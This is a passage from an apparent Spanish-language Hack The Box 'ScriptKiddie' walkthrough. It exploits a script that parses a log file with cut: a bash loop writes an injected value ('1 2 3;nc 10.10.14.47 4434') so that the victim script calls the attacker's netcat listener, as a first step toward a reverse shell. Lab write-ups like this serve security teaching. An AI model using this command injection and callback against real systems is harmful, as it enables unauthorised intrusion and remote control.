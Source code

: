 ```bash
❭ cat hackers | cut -d ' ' -f3-
333 4444 55555 666666
```

El símbolo `-` le indica que nos muestre desde nuestro corte hasta donde acabe la línea. 

Perfectooooo, podemos aprovecharnos de esto fácilmente, recordemos que tenemos:

* El archivo `/home/pwn/scanlosers.sh` se está ejecutando automáticamente muy rápido,
* Está leyendo el archivo `/home/kid/logs/hackers` (al cual tenemos acceso y podemos sobreescribirlo),
* Pero debemos ser rápidos, ya que al final del script lo está sobreescribiendo con valores nulos si el tamaño del archivo es mayor a 0.
* Sabiendo que todo lo que venga despues del corte en el tercer (`3`) espacio se está leyendo, podemos indicarle que no solo extraiga la IP, sino que nos ejecute nuestro payload:

...

Entonces podemos crearnos un script que sobreescriba el contenido del archivo `/home/kid/logs/hackers` con nuestro payload:

Como prueba inicial digámosle que nos mande una traza hacia nuestra máquina con `nc`:

```bash
#!/bin/bash

while true; do
    echo "1 2 3;nc 10.10.14.47 4434" > /home/kid/logs/hackers
done
```

> Sencillamente nos aprovechamos que toma toooooda la línea despues del 3. Entonces contamos el proceso y ejecutamos lo nuestro, terminamos (separamos) la ejecución del comando con un simple `;`. Como toda la vida :P

Pongámonos en escucha por el puerto `4434` y vemos si recibimos algo:

```bash
❭ nc -lvp 4434
listening on [any] 4434 ...
```

Ejecutamos el script y estamos atentos :P

![314bash_scanlosers_injectionNC](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/scriptkiddie/314bash_scanlosers_injectionNC.png)

Bien bien, recibimos la petición, así que aprovechémonos de esto para generar una Shell :O
